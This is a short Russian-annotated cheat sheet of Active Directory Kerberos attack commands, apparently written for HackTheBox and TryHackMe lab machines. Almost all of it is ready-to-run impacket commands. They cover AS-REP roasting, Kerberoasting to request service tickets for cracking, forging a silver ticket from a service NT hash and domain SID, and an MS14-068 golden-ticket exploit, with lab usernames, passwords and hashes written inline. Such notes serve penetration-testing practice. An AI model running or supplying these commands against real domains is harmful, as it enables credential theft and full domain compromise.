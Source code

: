 (НУЖНА АУТЕНТ ПО КЕРБЕРОС И НЕ НУЖНА)

impacket-GetNPUsers -dc-ip 10.10.10.161 htb.local/ -usersfile forest_user

impacket-GetNPUsers -dc-ip 10.10.10.161 htb.local/ -usersfile forest_user -request

impacket-GetNPUsers -dc-ip 10.10.10.161 -request 'htb.local/' (без списка пользователей)

# Получение идентификатора домена

impacket-getPac -targetUser administrator scrm.local/ksimpson:ksimpson

#Получить идентификатор пользователя

rpcclient $> lookupnames james(username)

# Получить TGT

impacket-getTGT scrm.local/ksimpson:ksimpson (домен/логин:пароль)

export KRB5CCNAME=ksimpson.ccache

sudo apt-get install krb5-user

kinit OOREND@REBOUND.HTB (также получить тикет и кеширует на диске)

klist - список билетов керберос

# Создание Silver Ticket для Administrator

impacket-ticketer -spn MSSQLSvc/dc1.scrm.local -user-id 500 Administrator -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local

(хеш - ntlm хеш пароля службы) 

# Сщздание голден тикет из-за уязвимости ms14

goldenPac.py 'htb.local/james:J@m3s_P@ssW0rd!@mantis'

# Глянуть SPN (НУЖЕН ПОЛЬЗОВАТЕЛЬ И ПАРОЛЬ)

python3 GetUserSPNs.py -dc-ip 10.10.154.84 lab.enterprise.thm/nik:ToastyBoi! -request

impacket-GetUserSPNs -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request

---получение SPN по билету TGT

impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-host dc1.scrm.local -no-pass

impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-host dc1.scrm.local -no-pass -request


"setspn -T TestDomain -Q */*"  (Теперь производится поиск доступных SPN в текущей среде при помощи следующей команды:)
